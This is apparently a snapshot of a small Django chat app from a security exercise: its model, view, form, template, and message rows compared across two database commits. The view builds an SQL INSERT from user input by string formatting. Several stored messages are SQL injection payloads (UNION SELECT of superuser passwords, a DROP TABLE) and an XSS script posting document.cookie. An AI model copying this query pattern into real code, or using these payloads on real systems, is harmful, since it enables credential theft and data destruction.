
/gobber/chats/, run on an earlier commit of the app's database.

And on a later commit of the database.
### gobber/models.py (models this page shows, shortened)
class Message(models.Model):
    message_text = models.CharField(max_length=300)
    pub_date = models.DateTimeField(auto_now=True)
    def was_published_recently(self):
        now = timezone.now()
        return now - datetime.timedelta(days=1) <= self.pub_date <= now
    was_published_recently.admin_order_field = 'pub_date'
    was_published_recently.boolean = True
    was_published_recently.short_description = 'Published recently?'

### gobber/views.py (the view)
# urls.py: path('chats/', views.chats, name='chats'),
def chats(request):
    cursor = connection.cursor()
    access = request.session.get('access','false')
    if access:
        messageList = Message.objects.filter(pub_date__lte=timezone.now()).order_by('-pub_date')[:7]
        if request.method == "POST":
            form = MessageForm(request.POST)
            messageText = (Message(message_text=request.POST.get('message_text')))
            messageDate = timezone.now()
            query2 = "INSERT INTO gobber_message (message_text, pub_date) VALUES ('%s','%s')" % (messageText, messageDate)
            print(query2)
            cursor.execute(query2)
            return HttpResponseRedirect(reverse('gobber:chats'))
        else:
            form = MessageForm()
        return render(request, 'gobber/chats.html', {'messageList':messageList,'form': form})
    else:
       return HttpResponseRedirect(reverse('gobber:access'))

### gobber/forms.py
class MessageForm(ModelForm):
    class Meta:
        model = Message
        fields = ['message_text']
        widgets = {
            'message_text': forms.Textarea(attrs={
                                                    'rows': 5,
                                                    })
        }
        labels = {
            'message_text': '',
        }

### gobber/templates/gobber/chats.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
    {% load static %}
    <link rel="stylesheet" type="text/css" href="{% static 'gobber/chatStyle.css' %}">
</head>
<body>
<div>
    <h1>GOBBER</h1>
</div>
<div class="leftSidebar">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
</div>
<div class="rightSidebar">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
</div>
<div class="chatField">
    <div>
        <h2>GIBBER AND GABBER WITH OTHER GOBLINS</h2>
        <form action="{% url 'gobber:chats' %}" method="post">
                {{ form }}
            <div class="chatButton">
                <input type="submit" value="Send">
            </div>
        </form>
    </div>
    <div>
    {% if messageList %}
        <ul class="chatList">
        {% for message in messageList %}
            <div class = "chatBox">
                <li class="chatTime"> {{message.pub_date}} </li>
                <li class="chatMessage"><a href="{% url 'gobber:detail' message.id %}"> {{message.message_text}} </a></li>
            </div>
        {% endfor %}
        </ul>
    {% else %}
        <p>No chats are available.</p>
    {% endif %}
    </div>
    <div class="btwTexte">
        <p>100% ANONYMOUS AND ISOLATED CHATTING. ONLY REAL GOBLINS LET INSIDE. WHAT HAPPENS IN THE CAVE STAYS IN THE CAVE.</p>
    </div>
</div>
</body>
</html>

What changed in the data, as far as the page shows it:
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 3:57 p.m.", message_text "this injection thing is not really... working"
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 3:50 p.m.", message_text "\" ' UNION SELECT password FROM Users WHERE is_superuser=true --\""
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 3:48 p.m.", message_text "\"DOESNOTEXIST' UNION SELECT password FROM Users WHERE is_superuser=True --\""
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 3:47 p.m.", message_text "\"DOESNOTEXIST' UNION SELECT password FROM Users WHERE is_superuser=true --\""
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 3:27 p.m.", message_text "<script> var http = new XMLHttpRequest(); http.open(\"POST\", 'mail/', true); http.setRequestHeader(\"Content-type\", \"application/json\"); var data = new Object(); data.content = document.cookie; http.send(JSON.stringify(data)); </script>"
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 2:52 p.m.", message_text "ooga booga what are these sessions"
no longer on this page (row unchanged): Message: pub_date "Oct. 11, 2022, 2:37 p.m.", message_text "ummm HELLO? ANYONE??????"
added Message: pub_date "Oct. 13, 2022, 2:42 p.m.", message_text "yo wtf"
added Message: pub_date "Oct. 13, 2022, 2:15 p.m.", message_text "HALLÅ"
added Message: pub_date "Oct. 13, 2022, 2:12 p.m.", message_text "instead of S"
added Message: pub_date "Oct. 13, 2022, 2:05 p.m.", message_text "TJARÅ"
added Message: pub_date "Oct. 13, 2022, 1:59 p.m.", message_text "hoi"
added Message: pub_date "Oct. 13, 2022, 1:25 p.m.", message_text "'"
added Message: pub_date "Oct. 13, 2022, 1:23 p.m.", message_text "' or 1=1; DROP TABLE notes; --"
